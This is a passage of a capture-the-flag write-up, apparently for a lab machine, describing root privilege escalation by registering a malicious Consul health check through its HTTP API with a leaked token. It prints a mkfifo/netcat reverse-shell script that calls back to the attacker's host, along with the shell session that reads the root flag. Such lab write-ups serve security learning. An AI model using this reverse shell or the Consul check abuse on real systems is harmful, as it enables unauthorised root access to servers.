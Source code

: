 5. After some googling, I found a valid format for the health check settings and used the following saved as check.json:
```
{
  "ID": "shell",
  "Name": "rootshell",
  "DeregisterCriticalServiceAfter": "90m",
  "Args": ["/dev/shm/rev.sh"],
  "Shell": "/bin/bash",
  "Interval": "30s",
}
```
This will execute a bash script in `/dev/shm/rev.sh` every 30 seconds. `rev.sh` included:
```
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.#.# 6667 >/tmp/f
```
I ran `nc -lvnp 6667` on my machine to listen for the connection back. Aternatively because I knew where the flag file would be by default, I could have copied it to a location I could access it at and change permissions, but getting full root shell access is better in my opinion and more realistic.

6. A couple attempts to register it using the `consul` command didn't seem to work. I would register a service via `consul service register` but it didn't seem to run. I decided to try the HTTP API instead. While in the folder with the check.json I created above, I ran:
```
developer@ambassador:/dev/shm$ curl --header "X-Consul-Token: bb03b43b-XXXX-XXXX-24b5-39540ee469b5" --request PUT --data @check.json http://127.0.0.1:8500/v1/agent/check/register
```
and waited the 30 seconds I set the execution interval. Less than (or exactly) 30 seconds later I was greeted with:
```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 6667
listening on [any] 6667 ...
connect to [10.10.14.120] from (UNKNOWN) [10.10.11.183] 60118
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# ls /root/
cleanup.sh
root.txt
snap
# cat /root/root.txt
6bfb9fdfXXXXXXXXXXXX59ff43cc720b
```
Root and the flag was obtained! 
